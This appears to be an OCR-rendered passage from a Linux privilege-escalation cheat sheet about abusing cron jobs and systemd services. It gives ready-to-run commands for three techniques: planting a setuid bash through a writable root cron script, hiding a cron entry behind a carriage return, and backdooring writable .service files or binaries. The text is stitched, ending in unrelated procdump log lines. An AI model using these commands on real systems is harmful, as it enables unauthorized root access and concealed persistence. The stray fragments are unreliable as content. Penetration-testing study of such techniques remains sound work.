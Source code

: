 If you **can modify a cron script** executed by root, you can get a shell very easily:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```

### Frequent cron jobs

You can monitor the processes to search for processes that are being executed every 1, 2 or 5 minutes. Maybe you can take advantage of it and escalate privileges.

For example, to **monitor every 0.1s during 1 minute**, **sort by less executed commands** and delete the commands that have been executed the most, you can do:

```bash
for i in $(seq 1 610); do ps -e --format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v "\[" | sed '/^.\{200\}./d' | sort | grep -E -v "\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]"; rm /tmp/monprocs.tmp;
```

**You can also use** [**pspy**](https://github.com/DominicBreuker/pspy/releases) (this will monitor and list every process that starts).

### Invisible cron jobs

It's possible to create a cronjob **putting a carriage return after a comment** (without newline character), and the cron job will work. Example (note the carriage return char):

```bash
#This is a comment inside a cron config file\r* * * * * echo "Surprise!"
```

## Services

### Writable _.service_ files

Check if you can write any `.service` file, if you can, you **could modify it** so it **executes** your **backdoor when** the service is **started**, **restarted** or **stopped** (maybe you will need to wait until the machine is rebooted).\
For example create your backdoor inside the .service file with **`ExecStart=/tmp/script.sh`**

### Writable service binaries

Keep in mind that if you have **write permissions over binaries being executed by services**, you can change them for backdoors so when the services get re-executed the backdoors will be executed.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714